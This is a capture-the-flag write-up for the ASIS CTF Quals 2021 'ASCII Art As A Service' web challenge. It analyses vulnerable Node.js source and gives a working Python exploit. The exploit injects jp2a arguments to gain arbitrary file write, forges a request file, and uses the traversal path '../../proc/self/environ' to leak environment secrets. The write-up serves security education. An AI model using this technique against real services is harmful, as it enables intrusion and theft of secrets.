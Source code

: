 ```yaml
---
layout: default
title: "ASCII Art As A Service (ASIS CTF Quals 2021)"
date: 2021-10-25
permalink: /aaaas/
categories: ctf web js
---
```


A writeup for ASCII Art As A Service, from [ASIS CTF Quals](https://ctftime.org/event/1415).
<!--more-->

The description for this challenge read 'You can convert your images to ASCII art. It is AaaS! 🤣'. Visiting the service, we are given a text box with a submission link.

Entering a link to an image would (after a few seconds) send back the image as ASCII art. The source is provided:

## Source Code Analysis

```js
app.post('/request',(req,res)=>{
    const url = req.body.url
    const reqToken = genRequestToken()
    const reqFileName = `./request/${reqToken}`
    const outputFileName = `./output/${genRequestToken()}`

    fs.writeFileSync(reqFileName,[reqToken,req.session.id,"Processing..."].join('|'))
    setTimeout(()=>{
        try{
            const output = childProcess.execFileSync("timeout",["2","jp2a",...url])
            fs.writeFileSync(outputFileName,output.toString())
            fs.writeFileSync(reqFileName,[reqToken,req.session.id,outputFileName].join('|'))
        } catch(e){
            fs.writeFileSync(reqFileName,[reqToken,req.session.id,"Something bad happened!"].join('|'))
        }
    },2000)
    res.redirect(`/request/${reqToken}`)
})
```
Our url is passed to JP2a (with a timeout of two seconds). Every request is given a unique 'request token', which is used as the name of the 'request file'. This file contains the current status of the request, along with the request token and session ID.

If JP2A finishes successfully, the output is written to 'outputFileName' (another random unique token), and the path to this output file is written to the request file.

There is an obvious command injection bug here: our URL is an array, and the spread operator (`...url`) expands it out - this allows us to provide extra arguments to JP2A.

```js
app.get("/request/:reqtoken",(req,res)=>{
	const reqToken = req.params.reqtoken
	const reqFilename = `./request/${reqToken}`
	var content
	if(!/^[a-zA-Z0-9]{32}$/.test(reqToken) || !fs.existsSync(reqFilename)) return res.json( { failed: true, result: "bad request token." })

	const [origReqToken,ownerSessid,result] = fs.readFileSync(reqFilename).toString().split("|")

	if(req.session.id != ownerSessid) return res.json( { failed: true, result: "Permissions..." })
	if(result[0] != ".") return res.json( { failed: true, result: result })

	try{
		content = fs.readFileSync(result).toString();
	} catch(e) {
		return res.json({ failed: false, result: "Something bad happened!" })
	}

	res.json({ failed: false, result: content })
	res.end()
})
```
After our request completes, we are redirected to the appropriate 'reqToken' route. This will check that our session ID matches that of the request file, and display the previously set output file if so.

Finally, the flag endpoint:

```js
app.get("/flag",(req,res)=>{
	if(req.ip == "127.0.0.1" || req.ip == "::ffff:127.0.0.1") res.json({ failed: false, result: flag })
	else res.json({ failed: true, result: "Flag is not yours..." })
})
```
'flag' is set in the environment, so it is not available as a regular file.

Finally, the `docker-compose` looks like:
```yml
    read_only: true
    tmpfs:
      - /app/request
      - /app/output
      - /tmp
```
Thus, only the 3 given paths are writable.

## Solving
JP2A by default outputs to stdout, but the `--output` flag allows us to specify a file to write to. This means we can write to arbritrary files! Initially, this output seemed uncontrolled - but JP2A provides a `--chars` argument, which specifies the dictionary of characters that pixels/regions are transformed to.

After some experimenting, I found that this can give a very simple write primitive - by simply linking to a black-white gradient of 50 pixels width, and providing 50 characters, it should return exactly our input!

With this, we had arbritrary file write. By writing to a 'request file' with our session ID and a file path, we could extend this to gain arbritrary file read!

### Image Generation

```py
from PIL import Image
import numpy as np


s = "|2DLQEZRivGXt_c_tw4sRxe1CtYWjLbyC|FILEPATH|"

# Use 16 bit colours for more granularity
arr = list(np.linspace(255*255, 1, num=len(s)))
arr = [[x]*3 for x in arr]
arr = np.array(arr, dtype=np.uint16)
arr = np.rot90(arr)
arr = arr[1:2]
im = Image.fromarray(arr)
im.save('test.png')
```

The question now was what file to read? The flag was only stored in the environment - which is readable at the linux pseudo-file `/proc/self/environ`! 
There is a check that the filename begins with `.`, but this is easily bypassed with `../../proc/self/environ`

With this, the exploit path is clear:

1. Obtain a session cookie
2. Host a gradient image
3. Provide a controlled string to write `|<cookie_id>|../../proc/self/environ|` to a fake request-file
4. Request that file, which will cause the flag to be read out

```py
import time
import subprocess
import requests
url = "http://vps.clubby789.me:8080/test.png"
s = requests.Session()
r = s.post("http://asciiart.asisctf.com:9000/request", headers={"Content-Type": "application/json"}, data={"url": [url]})
sid = r.cookies['connect.sid'][4:].split('.')[0]

payload = f"|{sid}|../../proc/self/environ|"
# jp2a mixed up the characters so we had to rearrange the string a little
payload = list(payload)
payload.append(payload.pop(29))
payload = ''.join(payload)
print("RESULT")
r = s.post("http://asciiart.asisctf.com:9000/request",
    json={"url": [url, f"--width={len(payload)}", url, f"--chars={payload}", "-i", f"--size={len(payload)}x1"]}, allow_redirects=False)
loc = r.headers['Location']
time.sleep(3)
# Confirming path is correct
print("Output of first: ")
print(s.get("http://asciiart.asisctf.com:9000" + loc).json()['result'])

# Setup a payload to write to the file
myloc = "B"*32
data = json={"url": [url, f"--width={len(payload)}", url, f"--chars={payload}", "-i", f"--size={len(payload)}x1", "--output=/app/request/" + myloc]}
print(data)
r = s.post("http://asciiart.asisctf.com:9000/request",
    json=data, allow_redirects=False)
loc = r.headers['Location']
# Wait for the file to be written out
time.sleep(3)
print("Output of second: ")
print(s.get("http://asciiart.asisctf.com:9000" + loc).json()['result'])
print("HERE WE GO")
# Get the flag
print(s.get("http://asciiart.asisctf.com:9000/request/" + myloc).text)
```

After a few seconds, we obtain the flag:

`ASIS{ascii_art_is_the_real_art_o/_a39bc8}`

